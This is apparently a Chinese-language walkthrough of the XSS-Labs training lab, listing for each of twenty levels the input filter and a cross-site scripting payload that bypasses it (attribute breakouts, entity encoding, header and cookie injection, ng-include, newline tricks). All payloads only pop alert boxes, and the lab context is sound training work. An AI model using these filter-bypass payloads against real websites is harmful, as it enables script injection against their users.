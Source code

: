 # XssLabs

## 第一关

无任何过滤

```
<script>alert(1)</script>
```

## 第二关

html实体化，过滤了大于小于符号,闭合绕过即可

```
"><script>alert(1)</script><"
```

## 第三关

html实体化，过滤了大于小于符号,onforce绕过

```
' onfocus=javascript:alert() '
```

## 第四关

替换了大于小于符号为空,onforce绕过

```
" onfocus=javascript:alert() "
```

## 第五关

全部变成小写，并且把on替换为o_n

```
"><a href=javascript:alert()>123<"
```

## 第六关

大小写绕过，双写绕过都可以

" Onfocus=javascript:alert() "

![image-20240408175955251](PictureFile/XssLabs通关.assets/image-20240408175955251.png)

## 第七关

![image-20240408180848672](PictureFile/XssLabs通关.assets/image-20240408180848672.png)

```
" onfocus=javascript:alert() "
```

## 第八关

过滤了一堆，包括双引号，可以编码绕过

![image-20240408212745803](PictureFile/XssLabs通关.assets/image-20240408212745803.png)

![image-20240408220408983](PictureFile/XssLabs通关.assets/image-20240408220408983.png)

```
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;
```

## 第九关

比上一题多加了http://头验证，在pyload中加入即可，记得加上注释

```
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;//http://
```

![image-20240408220629456](PictureFile/XssLabs通关.assets/image-20240408220629456.png)

## 第十关

有几个输入框被隐藏

![image-20240409122511156](PictureFile/XssLabs通关.assets/image-20240409122511156.png)

通关代码发现还可以传入t_sort参数，并且只做了大于号小于号的过滤

尝试pyload：?t_sort=" onfocus=javascript:alert() type="text

![image-20240409122443523](PictureFile/XssLabs通关.assets/image-20240409122443523.png)

## 第十一关

通关代码发现会读取referer，直接利用上面第十关的pyload即可 " onfocus=javascript:alert() type="text

![image-20240409124601088](PictureFile/XssLabs通关.assets/image-20240409124601088.png)

![image-20240409124654233](PictureFile/XssLabs通关.assets/image-20240409124654233.png)

## 第十二关

和上一关一样，只不过换成了ua头 " onfocus=javascript:alert() type="text

![image-20240409125231553](PictureFile/XssLabs通关.assets/image-20240409125231553.png)

## 第十三关

cookie：" onfocus=javascript:alert() type="text

![image-20240409125433160](PictureFile/XssLabs通关.assets/image-20240409125433160.png)

![image-20240409132803103](PictureFile/XssLabs通关.assets/image-20240409132803103.png)

## 第十四关

网站挂了做不了

## 第十五关

![image-20240409134528284](PictureFile/XssLabs通关.assets/image-20240409134528284.png)

**ng-include** 指令用于包含外部的 HTML 文件。

包含的内容将作为指定元素的子节点。

`ng-include` 属性的值可以是一个表达式，返回一个文件名。

默认情况下，包含的文件需要包含在同一个域名下。

所以包含第一关即可通关

```
?src='level1.php?name=<img src=1 onerror=alert(1)>'
```

## 第十六关

过滤了空格，可以用%OA(换行)绕过 <img%0Asrc=1%0Aonerror=alert(1)>

![image-20240409134756956](PictureFile/XssLabs通关.assets/image-20240409134756956.png)

## 第十七关

从这一关开始后面所有关卡，都调用外部xsf01.swf文件了，慢慢开始和逆向有关了，大伙学到这本靶场的xss知识点就差不多get完了，后面有能力的可以看看

`<embed>`标签，是用来嵌入图片的。可以用onclick或onmouseover绕过。因为这两个变量是互相拼接起来的，所以在输入arg02时在b之后加一个空格，当浏览器解析到b的时候就停止判断，然后将onclick或onmouseover看作另外一个属性。

edge可以跑，firefox不行

```
?arg01=a&arg02=a%20onmouseover=alert()
```

## 第十八关

同理

## 第十九关

同理

## 第二十关

亲测无效

```
?arg01=id&arg02=\%22))}catch(e){}if(!self.a)self.a=!alert(1)

?arg01=id&arg02=xss\%22))}catch(e){alert(1)}//%26width=123%26height=123
```